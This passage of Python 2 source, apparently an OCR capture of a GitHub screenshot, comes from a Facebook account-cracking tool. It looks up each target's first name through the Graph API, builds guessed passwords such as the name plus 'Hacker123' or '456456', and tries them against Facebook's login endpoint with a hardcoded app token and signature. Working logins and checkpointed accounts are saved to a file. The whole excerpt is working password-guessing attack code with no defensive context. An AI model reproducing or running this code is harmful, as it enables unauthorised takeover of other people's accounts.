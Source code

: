 													cek.close()

													cekpoint.append(user+pass5)

												else:

													pass6 = b['first_name'] + 'Hacker123'

													data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass6)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")

													q = json.load(data)

													if 'access_token' in q:

														print '\x1b[1;96m[\x1b[1;92mSuccessful\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass6

														oks.append(user+pass6)

													else:

														if 'www.facebook.com' in q["error_msg"]:

															print '\x1b[1;96m[\x1b[1;93mCheckpoint\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass6

															cek = open("out/checkpoint.txt", "a")

															cek.write(user+"|"+pass6+"\n")

															cek.close()

															cekpoint.append(user+pass6)

														else:

															a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)

															b = json.loads(a.text)

															pass7 = b['first_name'] + '456456'

															data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass7)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")

															q = json.load(data)

															if 'access_token' in q:

																print '\x1b[1;96m[\x1b[1;92mSuccessful\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass7

																oks.append(user+pass7)

															else:

																if 'www.facebook.com' in q["error_msg"]:

																	print '\x1b[1;96m[\x1b[1;93mCheckpoint\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass7
